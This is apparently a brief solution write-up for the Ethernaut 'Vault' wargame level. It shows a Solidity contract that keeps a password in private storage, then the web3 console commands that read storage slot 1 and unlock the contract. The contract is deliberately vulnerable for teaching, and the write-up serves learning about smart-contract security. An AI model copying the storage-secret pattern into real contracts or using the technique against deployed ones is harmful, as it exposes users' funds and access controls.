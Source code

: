 # Ehternaut 12: Volt

Understanding solidity storage

```apache
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

This Ethernaut Puzzle asks to read out storage location 1, the private password and initiate the unlock function. I do it in web3 from the firefox console:

1. To get the password I use: await web3.eth.getStorageAt(contract.address, 1)
2. To unlock the contract I use the result:
   await contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")

Done!!!
